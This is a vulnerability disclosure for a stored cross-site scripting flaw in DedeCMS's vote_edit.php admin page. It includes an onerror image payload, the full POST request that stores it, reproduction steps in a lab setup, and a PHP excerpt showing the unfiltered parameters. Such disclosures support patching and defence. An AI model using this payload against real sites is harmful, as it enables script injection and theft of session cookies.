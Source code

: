 # [DedeCMS<=V5.7.110-Stored XSS-vote_edit.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.dedecms.com/

**[Affected Version]:** DedeCMS<=V5.7.110

**[Test Environment]:** windows10+apache+php7.0

**[Description]:** DedeCMS up to V5.7.110 was discovered to contain multiple cross-site scripting (XSS) vulnerabilities at /dede/vote_edit.php via the `votename` and `votenote` parameters.

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** http://192.168.0.105/dedecms/dede/vote_edit.php?aid=7&dopost=edit

**[Vulnerability Location]:** /dede/vote_edit.php

**[Vulnerability Test]:**

1. First visit http://192.168.0.105/dedecms/dede/vote_edit.php?aid=7&dopost=edit

   payload：`<img src=1 onerror=alert(document.cookie)>`

   ![](../../img/20230814103404.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /dedecms/dede/vote_edit.php HTTP/1.1
   Host: 192.168.0.105
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 374
   Origin: http://192.168.0.105
   Connection: close
   Referer: http://192.168.0.105/dedecms/dede/vote_edit.php?aid=7&dopost=edit
   Cookie: menuitems=1_1%2C2_1%2C3_1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=fb049b7933f5a742; DedeLoginTime=1691978132; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=582d3ad475d7b0e4; PHPSESSID=8608hb7v6n2rjca8r9n8onpk60; _csrf_name_9ede20a6=41362c7cd38c0125155b9cafef6fd2aa; _csrf_name_9ede20a61BH21ANI1AGD297L1FF21LN02BGE1DNG=d5617b42d6525a46; ENV_GOBACK_URL=%2Fdedecms%2Fdede%2Fvote_main.php
   Upgrade-Insecure-Requests: 1
   
   dopost=saveedit&aid=7&votename=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&totalcount=0&starttime=2023-08-14&endtime=2023-09-13&isallow=1&view=1&spec=0&ismore=0&votenote=%3Cv%3Anote+id%3D%271%27+count%3D%270%27%3E%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E%3C%2Fv%3Anote%3E%0D%0A&isenable=0&Submit=%E4%BF%9D%E5%AD%98%E6%8A%95%E7%A5%A8%E6%95%B0%E6%8D%AE
   ```

   

3. Visit http://192.168.0.105/dedecms/dede/vote_main.php

   ![](../../img/20230814103758.png)

4. Click it, visit http://192.168.0.105/dedecms/plus/vote.php?aid=7&dopost=view

   ![](../../img/20230814103619.png)

   ![](../../img/20230814101254.png)

**[code analysis]:**

In /dede/vote_edit.php:

```php
<?php 
//...
else if($dopost=="saveedit")
{
    $starttime = GetMkTime($starttime);
    $endtime = GetMkTime($endtime);
    $query = "UPDATE #@__vote SET votename='$votename',
        starttime='$starttime',
        endtime='$endtime',
        totalcount='$totalcount',
        ismore='$ismore',
        votenote='$votenote',
        isallow='$isallow',
        view='$view',
        spec='$spec',
        isenable='$isenable'
        WHERE aid='$aid'
        ";
    if($dsql->ExecuteNoneQuery($query))
    {
        $vt = new DedeVote($aid);
        $vote_file = DEDEDATA."/vote/vote_".$aid.".js";
        $vote_content = $vt->GetVoteForm();
        $vote_content = preg_replace(array("#/#","#([\r\n])[\s]+#"),array("\/"," "),$vote_content);        //取出内容中的空白字符并进行转义
        $vote_content = 'document.write("'.$vote_content.'");';
        file_put_contents($vote_file,$vote_content);
        ShowMsg('成功更改一组投票!',$ENV_GOBACK_URL);
    }
    else
    {
        ShowMsg('更改一组投票失败!',$ENV_GOBACK_URL);
    }
}
//....
```

No filtering is done on votename and votenote.

In /plus/vote.php and /templets/plus/vote.htm, `votename` and `votenote` are echoed on the page.



